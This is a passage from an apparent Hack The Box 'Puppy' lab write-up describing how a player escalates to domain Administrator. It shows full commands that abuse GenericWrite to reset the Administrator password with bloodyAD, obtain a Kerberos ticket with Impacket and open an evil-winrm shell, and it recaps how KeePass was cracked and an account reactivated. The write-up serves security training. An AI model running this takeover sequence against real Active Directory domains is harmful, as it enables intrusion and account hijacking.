 ### steph.cooper_adm -> Administrator

Looking back at the bloodhound graph

![htb-puppy-bloodhound-stephen](images/HTB-puppy/htb-puppy-bloodhound-stephen.png)

`steph.cooper` has `GenericWrite` over `DomainAdmins` so we can **change the `Administrator` password** 
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad bloodyAD -d puppy.htb -u 'steph.cooper_adm' -p '<PASSWORD_REDACTED>' -k --host dc.puppy.htb set password 'Administrator' 'Dasian123!'
[+] Password changed successfully!
```

Let's authenticate, login, and grab the flag!
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad bloodyAD -d puppy.htb -u 'steph.cooper_adm' -p '<PASSWORD_REDACTED>' -k --host dc.puppy.htb set password 'Administrator' 'Dasian123!'
[+] Password changed successfully!

┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad getTGT.py -dc-ip dc.puppy.htb 'puppy.htb/Administrator:Dasian123!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in Administrator.ccache

┌──(kali@kali)-[~/puppy.htb]
└─$ export KRB5CCNAME=/home/kali/puppy.htb/Administrator.ccache

┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad evil-winrm -i dc.puppy.htb -r puppy.htb
```

![htb-puppy-root-txt 1](images/HTB-puppy/htb-puppy-root-txt 1.png)

## Recap
From our initial user we can abuse the `GenericWrite` permission over the `Developers` group to gain access to the `DEV` `SMB` share. Downloading a `KeePass` credential database and cracking the password we get credentials for the `ant.edwards` user. `ant.edwards` can **reactivate** the `adam.silver` account and **change their password**, giving us a foothold onto the server and the `user.txt` flag!
